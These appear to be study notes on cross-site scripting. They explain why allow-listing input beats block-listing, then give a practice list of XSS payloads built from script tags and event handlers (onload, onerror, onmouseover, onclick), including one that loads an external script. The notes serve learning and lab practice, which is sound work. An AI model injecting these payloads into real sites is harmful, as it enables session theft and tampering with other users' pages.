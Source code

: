 

##### Whitelisting

instead of defining a forbidden pattern, a whitelist approach defines an allowed pattern and marks input as invalid if it *does not* match this pattern.

In contrast with the blacklisting example before, an example of whitelisting would be to allow users to submit custom URLs containing only the protocols `http:` and `https:`, nothing else. This approach would automatically mark a URL as invalid if it had the protocol `javascript:`, even if it appeared as "`Javascript:`" or "`javascript:`".

Compared to blacklisting, there are **two major benefits of whitelisting:**

- **Simplicity**

  Accurately describing a set of safe strings is generally much easier than identifying the set of all malicious strings. This is especially true in common situations where user input only needs to include a very limited subset of the functionality available in a browser. 

  **Longevity**

  Unlike a blacklist, a whitelist will generally not become obsolete when a new feature is added to the browser. For example, an HTML validation whitelist allowing only the `title` attribute on HTML elements would remain safe even if it was developed before the introduction of HTML5 `onmousewheel` attribute.















## Practises

https://xss.haozi.me/

### xss payload

```html
<script>alert(1)</script>
<body onload=alert(1)>
<body/onload=alert(1)>
<svg onload=alert(1)>
<svg/onload=alert(1)>
<img src onerror=alert(1)>
<input type=image src onerror=alert(1)>
<script src="https://xss.haozi.me/j.js"></script>//加载外部js
<input type=button onclick="alert(1)">//点击按钮
<input onmouseover=alert(1)>//鼠标指针移动到指定的元素上时执行
<input onmousemove=alert(1)>//鼠标移动时执行
......还有其他onmouse系列
<img src=javascript: onmouseover="alert(1)">//鼠标移动指向图片
<img src=javascript: onclick="alert(1)">//鼠标点击图片
```
